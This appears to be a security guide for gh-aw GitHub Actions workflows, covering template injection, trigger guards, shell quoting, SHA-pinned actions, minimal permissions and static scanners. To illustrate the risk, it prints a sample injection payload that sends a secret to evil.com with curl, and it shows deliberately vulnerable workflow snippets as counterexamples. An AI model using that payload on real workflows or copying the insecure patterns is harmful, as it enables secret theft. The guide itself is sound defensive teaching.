

# Security Best Practices

Use this reference for security guidelines when implementing or reviewing gh-aw workflow features and Go code.

## Table of Contents

- [Template Injection Prevention](#template-injection-prevention)
- [Cross-Trigger Nullability](#cross-trigger-nullability-in-generated-conditional-expressions)
- [Shell Script Best Practices](#shell-script-best-practices)
- [Supply Chain Security](#supply-chain-security)
- [Workflow Structure and Permissions](#workflow-structure-and-permissions)
- [Static Analysis Integration](#static-analysis-integration)
- [Security Checklist](#security-checklist)

### Template Injection Prevention

Template injection occurs when untrusted input is used directly in GitHub Actions expressions, allowing attackers to execute arbitrary code or access secrets.

#### Understanding the Risk

GitHub Actions expressions (`${{ }}`) are evaluated before workflow execution. If untrusted data (issue titles, PR bodies, comments) flows into these expressions, attackers can inject malicious code.

#### Insecure Pattern

```yaml
# VULNERABLE: Direct use of untrusted input
name: Process Issue
on:
  issues:
    types: [opened]

jobs:
  process:
    runs-on: ubuntu-latest
    steps:
      - name: Echo issue title
        run: echo "${{ github.event.issue.title }}"
```

**Why vulnerable:** Issue title is directly interpolated. An attacker can inject: `"; curl evil.com/?secret=$SECRET; echo "`

#### Secure Pattern: Environment Variables

```yaml
# SECURE: Use environment variables
name: Process Issue
on:
  issues:
    types: [opened]

jobs:
  process:
    runs-on: ubuntu-latest
    steps:
      - name: Echo issue title
        env:
          ISSUE_TITLE: ${{ github.event.issue.title }}
        run: echo "$ISSUE_TITLE"
```

**Why secure:** Expression is evaluated in controlled context (environment variable assignment). Shell receives value as data, not executable code.

#### Data Flow Comparison



#### Recent Fixes (November 2025)

Template injection vulnerabilities were identified and fixed in:
- `copilot-session-insights.md` - Step output passed through environment variable
- Pattern: Move template expressions from bash scripts to environment variable assignments

See `scratchpad/template-injection-prevention.md` for detailed analysis and fix documentation.

#### Secure Pattern: Sanitized Context (gh-aw specific)

```yaml
# SECURE: Use sanitized context output
Analyze this content: "${{ steps.sanitized.outputs.text }}"
```

The `steps.sanitized.outputs.text` output is automatically sanitized:
- @mentions neutralized
- Bot triggers protected
- XML tags converted to safe format
- Only HTTPS URIs from trusted domains
- Content limits enforced (0.5MB, 65k lines)
- Control characters removed

#### Safe Context Variables

**Always safe to use in expressions:**
- `github.actor`
- `github.repository`
- `github.run_id`
- `github.run_number`
- `github.sha`

**Never safe in expressions without environment variable indirection:**
- `github.event.issue.title`
- `github.event.issue.body`
- `github.event.comment.body`
- `github.event.pull_request.title`
- `github.event.pull_request.body`
- `github.head_ref` (can be controlled by PR authors)

### Cross-Trigger Nullability in Generated Conditional Expressions

When Go code generates GitHub Actions `if:` expressions, nested event fields must be guarded by trigger checks across all declared workflow triggers.

GitHub Actions expression evaluation can fail before any jobs run when an expression accesses an object graph that does not exist for the active trigger (for example `github.event.pull_request.*` on `push`, `workflow_dispatch`, or `schedule`).

#### Insecure Pattern (missing trigger guard)

```go
// VULNERABLE: pull_request-only fields referenced unconditionally
condition := fmt.Sprintf(
    "github.event.pull_request.stack.position >= %d && github.event.pull_request.stack.position <= %d",
    minPos,
    maxPos,
)
```

**Why vulnerable:** On non-PR triggers, `github.event.pull_request` is absent. Property access or arithmetic on absent nested fields can cause expression evaluation failure (`startup_failure`) before workflow error handling can run.

#### Secure Pattern (event_name + nullability guard)

```go
// SECURE: gate nested pull_request fields behind explicit trigger and null checks
condition := fmt.Sprintf(
    "github.event_name == 'pull_request' && github.event.pull_request != null && github.event.pull_request.stack != null && github.event.pull_request.stack.position >= %d && github.event.pull_request.stack.position <= %d",
    minPos,
    maxPos,
)
```

#### Required Guidance for Condition Generation

- Guard every trigger-specific object chain (`github.event.pull_request.*`, `github.event.issue.*`, etc.) with `github.event_name` checks.
- Add nullability guards for each parent object in the chain before accessing deeper properties.
- For workflows with multiple triggers, ensure every trigger path either short-circuits safely or avoids unsupported fields entirely.
- Prefer conservative composition (`A && B && C`) where early terms validate event type/object existence before nested access.

#### Verification Checklist

- Enumerate all declared triggers in the generated workflow.
- For each generated condition, confirm nested event-field access is valid for every trigger.
- Validate that unsupported triggers short-circuit before nested field access.
- Add/update tests in `pkg/workflow/*filter*.go` (or equivalent) that assert safe conditions for mixed-trigger workflows.

### Shell Script Best Practices

#### SC2086: Double Quote to Prevent Globbing and Word Splitting

**Insecure:**
```yaml
steps:
  - name: Process files
    run: |
      FILES=$(ls *.txt)
      for file in $FILES; do
        echo $file
      done
```

**Why vulnerable:** Variables can be split on whitespace, glob patterns are expanded, potential command injection.

**Secure:**
```yaml
steps:
  - name: Process files
    run: |
      while IFS= read -r file; do
        echo "$file"
      done < <(find . -name "*.txt")
```

#### Shell Script Security Checklist

- Always quote variable expansions: `"$VAR"`
- Use `[[ ]]` instead of `[ ]` for conditionals
- Use `$()` instead of backticks for command substitution
- Enable strict mode: `set -euo pipefail`
- Validate and sanitize all inputs
- Use shellcheck to catch common issues

**Example secure script:**
```yaml
steps:
  - name: Secure script
    env:
      INPUT_VALUE: ${{ github.event.inputs.value }}
    run: |
      set -euo pipefail

      if [[ ! "$INPUT_VALUE" =~ ^[a-zA-Z0-9_-]+$ ]]; then
        echo "Invalid input format"
        exit 1
      fi

      echo "Processing: $INPUT_VALUE"

      result=$(grep -r "$INPUT_VALUE" . || true)
      echo "$result"
```

### Supply Chain Security

Supply chain attacks target dependencies in CI/CD pipelines.

#### Pin Action Versions with SHA

**Insecure:**
```yaml
steps:
  - uses: actions/checkout@v5           # Tag can be moved
  - uses: actions/setup-node@main       # Branch can be updated
```

**Why vulnerable:** Tags can be deleted and recreated, branches can be force-pushed, repository ownership can change.

**Secure:**
```yaml
steps:
  - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11 # v4.1.1
  - uses: actions/setup-node@60edb5dd545a775178f52524783378180af0d1f8 # v4.0.2
```

**Why secure:** SHA commits are immutable. Comments indicate human-readable version for updates.

#### Finding SHA for Actions

```bash
# Get SHA for a specific tag
git ls-remote https://github.com/actions/checkout v4.1.1

# Or use GitHub API
curl -s https://api.github.com/repos/actions/checkout/git/refs/tags/v4.1.1
```

### Workflow Structure and Permissions

#### Minimal Permissions Principle

**Insecure:**
```yaml
name: CI
on: [push]

permissions: write-all
```

**Secure:**
```yaml
name: CI
on: [push]

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@sha
      - run: npm test
```

#### Job-Level Permissions

```yaml
name: CI/CD
on: [push]

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@sha
      - run: npm test

  deploy:
    needs: test
    runs-on: ubuntu-latest
    permissions:
      contents: read
      deployments: write
    steps:
      - uses: actions/checkout@sha
      - run: npm run deploy
```

#### Available Permissions

| Permission | Read | Write | Use Case |
|------------|------|-------|----------|
| contents | Read code | Push code | Repository access |
| issues | Read issues | Create/edit issues | Issue management |
| pull-requests | Read PRs | Create/edit PRs | PR management |
| actions | Read runs | Cancel runs | Workflow management |
| checks | Read checks | Create checks | Status checks |
| deployments | Read deployments | Create deployments | Deployment management |

### Static Analysis Integration

Integrate static analysis tools into development and CI/CD workflows:

#### Available Tools

- **actionlint** - Lints GitHub Actions workflows, validates shell scripts
- **zizmor** - Security vulnerability scanner for GitHub Actions
- **poutine** - Supply chain security analyzer

#### Running Locally

```bash
# Run individual scanners
actionlint .github/workflows/*.yml
zizmor .github/workflows/
poutine analyze .github/workflows/

# For gh-aw workflows
gh aw compile --actionlint
gh aw compile --zizmor
gh aw compile --poutine

# Strict mode: fail on findings
gh aw compile --strict --actionlint --zizmor --poutine
```

### Security Checklist

#### Template Injection
- [ ] No untrusted input in `${{ }}` expressions
- [ ] Untrusted data passed via environment variables
- [ ] Safe context variables used where possible
- [ ] Sanitized context used (gh-aw: `steps.sanitized.outputs.text`)

#### Shell Scripts
- [ ] All variables quoted: `"$VAR"`
- [ ] No SC2086 warnings (unquoted expansion)
- [ ] Strict mode enabled: `set -euo pipefail`
- [ ] Input validation implemented
- [ ] shellcheck passes with no warnings

#### Supply Chain
- [ ] All actions pinned to SHA (not tags/branches)
- [ ] Version comments added to pinned actions
- [ ] Actions from verified creators or reviewed
- [ ] Dependencies scanned for vulnerabilities

#### Permissions
- [ ] Minimal permissions specified
- [ ] No `write-all` permissions
- [ ] Job-level permissions used when needed
- [ ] Fork PR handling secure

#### Static Analysis
- [ ] actionlint passes (no errors)
- [ ] zizmor passes (High/Critical addressed)
- [ ] poutine passes (supply chain secure)

